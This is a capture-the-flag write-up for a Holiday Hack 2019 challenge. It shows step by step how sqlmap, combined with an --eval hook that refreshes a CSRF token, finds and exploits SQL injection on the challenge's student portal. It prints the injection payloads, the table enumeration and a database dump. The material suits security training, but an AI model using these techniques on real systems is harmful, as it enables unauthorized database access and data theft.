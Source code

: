 ```yaml
---
title: Retrieve Scraps of paper from server
tags: 
  - Infosec
  - Web
  - Exploit
categories:
  - Holiday Hack 2019
date: 2020-01-19
---
```



Looking at the website we see 2 pages that look like they use SQL: You can submit an application, `/apply.php`, or you can check the status, `check.php`. Thinking about how these work, applying probably runs some INSERT statement, whereas check is probably a SELECT statement. Since injecting into SELECT statements is more common, it's also easier to do with a lot of tools. so we'll focus on this form.

First we need to know how the form works, so we can open burp, set the proxy, etc. and submit the form with some example data.

We see 2 requests after we submit the form:

```
> GET /validator.php HTTP/1.1
> Host: studentportal.elfu.org
> Accept: */*
> Referer: https://studentportal.elfu.org/check.php

< HTTP/1.1 200 OK
< Content-Type: text/html; charset=UTF-8
< X-Powered-By: PHP/7.2.1
< 
< MTAwOTU3NjU3MjE2MTU3NzQ2MzM5NDEwMDk1NzY1Ny4yMTY=_MTI5MjI1ODAxMjM2NDgzMjMwNjQ1MDMwLjkxMg==
< 

> GET /application-check.php?elfmail=krampus%40elfu.ac&token=MTAwOTU3NjU3MjE2MTU3NzQ2MzM5NDEwMDk1NzY1Ny4yMTY%3D_MTI5MjI1ODAxMjM2NDgzMjMwNjQ1MDMwLjkxMg%3D%3D HTTP/1.1
> Host: studentportal.elfu.org
> Accept: */*
> Referer: https://studentportal.elfu.org/check.php

< [...]

```

(trimmed)

The actual form goes in the second request as GET parameter `elfmail`. We also have a `token` value that's just the response from `validator.php`. If we try to reuse this for another request we get the message 'Invalid or expired token!', so this is some CSRF token that we need to populate each request.

Let's run sqlmap against it. A start would be:

```
sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB'
```

But of course we need to update the CSRF token. SQLMap has built in parameters `--csrf-token` and `--csrf-url` for doing this, so it seems like we should be able to do this:

```
sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB' --csrf-token 'token' --csrf-url 'https://studentportal.elfu.org/validator.php'
```

But we get this error:

```
[..:..:..] [CRITICAL] anti-CSRF token 'token' can't be found at 'https://studentportal.elfu.org/validator.php'
```

So it seems like it's looking for the token to be as an `<input>` or as a URL param. This isn't going to work, so we'll have to manipulate the token value some other way. From the SQLMap docs:

```
Option: --eval

In case that user wants to change (or add new) parameter values, most probably because of some known dependency, he can provide to sqlmap a custom python code with option --eval that will be evaluated just before each request.

$ python sqlmap.py -u "http://www.target.com/vuln.php?id=1&hash=c4ca4238a0b9238\
20dcc509a6f75849b" --eval="import hashlib;hash=hashlib.md5(id).hexdigest()"
```

So we need to make a GET request then set the token to the response:

```python
import requests
token = requests.get('https://studentportal.elfu.org/validator.php').text
```

Then set that as the eval function:

```
$ sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB' --eval 'import requests; token = requests.get('https://studentportal.elfu.org/validator.php').text'

[...]

sqlmap identified the following injection point(s) with a total of 189 HTTP(s) requests:
---
Parameter: elfmail (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: elfmail=AAA' AND 3693=3693 AND 'ObJp'='ObJp&token=AAA

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: elfmail=AAA' AND (SELECT 4447 FROM(SELECT COUNT(*),CONCAT(0x716b627871,(SELECT (ELT(4447=4447,1))),0x7170707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'ByHL'='ByHL&token=AAA

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: elfmail=AAA' AND (SELECT 3959 FROM (SELECT(SLEEP(5)))cRnI) AND 'gKPu'='gKPu&token=AAA
---

```

Now we can start looking at the databaes. We can enumerate the following tables:

```
$ sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB' --eval 'import requests; token = requests.get('https://studentportal.elfu.org/validator.php').text' --tables

[..:..:..] [WARNING] user aborted during enumeration. sqlmap will display partial output
Database: elfu
[3 tables]
+---------------------------------------+
| applications                          |
| krampus                               |
| students                              |
+---------------------------------------+

Database: information_schema
[8 tables]
+---------------------------------------+
| ALL_PLUGINS                           |
| APPLICABLE_ROLES                      |
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENABLED_ROLES                         |
+---------------------------------------+
```

Let's dump the contents of the `krampus` table:

```
$ sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB' --eval 'import requests; token = requests.get('https://studentportal.elfu.org/validator.php').text' -T krampus --dump

Database: elfu
Table: krampus
[6 entries]
+----+-----------------------+
| id | path                  |
+----+-----------------------+
| 1  | /krampus/0f5f510e.png |
| 2  | /krampus/1cc7e121.png |
| 3  | /krampus/439f15e6.png |
| 4  | /krampus/667d6896.png |
| 5  | /krampus/adb798ca.png |
| 6  | /krampus/ba417715.png |
+----+-----------------------+
```

Each of these paths is an image on the server, all of which seem to be a fragment of paper. We can piece these together and see the final message:

```

From the desk of ....
Date: August 23, 20...

Memo to Self:

Finally! I've figured out how to destroy Christmas!
Santa has a brand new, cutting edge sleigh guidance technology, called the Super Sled-o-matic.

I've figured out a way to poison the data going into the system so that it will divert Santa's sled on Christmas Eve!

Santa will be unable to make the trip and the holiday season will be destroyed! Santa's own technology will undermine him!

That's what they deserve for not listening to my suggestions for supporting other holiday characters!

Bwahahahahaha!
```

